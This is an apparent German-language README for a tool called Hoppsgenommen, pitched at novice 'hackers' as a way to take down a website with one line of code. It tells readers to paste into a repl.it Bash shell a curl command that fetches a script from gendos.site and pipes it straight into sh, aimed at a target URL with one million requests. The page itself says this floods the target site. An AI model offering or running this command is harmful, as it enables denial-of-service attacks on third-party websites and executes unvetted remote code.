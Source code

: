 # Hoppsgenommen asa7be


Du kleiner Hägger bist hier gelandet, weil du wissen willst, wie man eine Seite mit einer Zeile code hopps nimmt?

Dann bist du hier genau richtig !


Geh auf [repl.it](https://repl.it) und generiere eine neue Bash repl.

![repl.it how to make bash](https://github.com/hoppsgenommen/hoppsgenommen.github.io/raw/master/replit.png)

Dann paste dort folgenden code rein:

```bash
curl -L "gendos.site?args=https://deinezielurl.de%20-n=1000000" | sh
```

Drücke auf `Run` und schau was passiert :D!

![Test run with the script and args set to ddostest.me](https://github.com/hoppsgenommen/hoppsgenommen.github.io/raw/master/ddostestme.png)

PS.: Es kann unter Umständen etwas dauern, da [hey](https://github.com/rakyll/hey) für den Befehl oben 1000000 Requests
gegen "https://deinezielurl.de" feuert.

Enjoy.

Proudly presented by Hoppsgenommen.de:

![Hoppsgenommen du lappen](https://github.com/hoppsgenommen/hoppsgenommen.github.io/raw/master/g102.png)

